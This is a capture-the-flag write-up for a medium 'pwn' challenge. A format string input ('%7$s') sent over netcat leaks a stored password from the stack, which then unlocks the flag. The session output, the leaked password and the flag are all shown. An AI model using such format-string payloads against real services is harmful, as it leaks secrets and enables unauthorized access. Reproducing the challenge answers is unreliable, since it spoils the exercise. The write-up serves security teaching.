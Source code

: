 ```yaml
---
layout: writeup

title: Thumper's PWN 3
level: 5 # optional, for events that use levels
difficulty: medium
points: 200
categories: [pwn]
tags: [format string]

flag: he2023{w3lc0m3_t0_r1ng_3_thump3r}

---
```


## Challenge

Thumper has been hunting his nemesis, Dr. Evil, for months. He finally located his remote system and is trying to gain access. Can you help him find the right password?

Target: `nc ch.hackyeaster.com 2313`

## Solution

we find out its a format string vulnerability and read values off the stack.

we get something interesting by giving `%7$s` as the password

```bash
$ nc ch.hackyeaster.com 2313

Welcome to the password protected vault
Please enter your password: %7$s
Nope..
5uP3R_s3cUr3_PW
is incorrect. Better luck next time
```

we use this password to log in and get our flag!

```bash
$ nc ch.hackyeaster.com 2313

Welcome to the password protected vault
Please enter your password: 5uP3R_s3cUr3_PW
Access granted, here is your flag:

he2023{w3lc0m3_t0_r1ng_3_thump3r}
```

